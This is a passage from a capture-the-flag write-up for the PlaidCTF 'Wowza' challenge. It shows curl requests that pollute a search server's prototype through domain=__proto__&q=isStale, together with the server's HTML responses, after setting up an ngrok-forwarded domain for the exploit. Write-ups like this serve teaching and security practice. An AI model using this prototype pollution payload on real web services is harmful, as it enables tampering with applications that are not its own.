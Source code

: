 Note that `VALID` as the validation code is a temporary change we made to the code for testing purposes.  It would seem we were successful since `pending` is `false`.  While we're at it, let's go ahead and add our own validated domain that can be scraped, something like an ngrok url that forwards to a locally running [server](https://github.com/zoeyg/sec/blob/master/tools/simple-http-server.js) that we can modify as needed.  We can register the site through the UI, and then use our script to validate it.  We could also alternatively just use a valid domain we own.

### Prototype Pollution

Now we need to run a query on the site search server to achieve the prototype pollution.  You can do it through the UI, or via the command line:

```shell
╭─zoey@parrot ~/sec/plaidctf/wowza ‹main*› 
╰─$ curl 'http://wowza.pwni.ng:6285/?domain=__proto__&q=isStale'                                                                                                                                                127 ↵
<html>
    <head>
        <!-- I submit for your consideration that this is not an XSS problem -->
        <link rel="preconnect" href="https://fonts.gstatic.com">
        <link href="https://fonts.googleapis.com/css2?family=Lato:ital,wght@0,100;0,300;0,400;0,700;1,100;1,300;1,400;1,700&display=swap" rel="stylesheet">
        <link rel="stylesheet" href="/static/main.css">
        <script src="/static/main.js"></script>
    </head>
    <body>
        <div class="content">
            <div class="head">
                <div class="logo">Wowza!</div>
                <div class="search-bar">
                    <input type="text" id="domain-search" placeholder="Domain">
                    <div class="divider"></div>
                    <input type="text" id="query-search" placeholder="Query">
                </div>
            </div>
            <div class="result-list"></div>
        </div>
    </body>
</html>
```

If things went properly, the request to the search console for the `__proto__` domain and site should have worked, and `isStale` should have been polluted with a value of `[]`, which is truthy.  So now when you make a search on your valid domain that returns a result, there should be a refetch.  When we run the following search:

```shell
╭─zoey@parrot ~/sec/plaidctf/wowza ‹main*› 
╰─$ curl 'http://wowza.pwni.ng:6285/?domain=81b70181c396.ngrok.io&q=index'                                 
<html>
<!-- ... -->
  <div class="result-list">
    <div class="result">
      <a class="link" href="http://81b70181c396.ngrok.io/" target="__blank">/</a>
      <div class="description">
          WOWZA INDEX CONTENT1 CONTENT2 CONTENT3 CONTENT4 CONTENT5
      </div>
    </div>
    </div>
  </div>
</body>
</html>
```
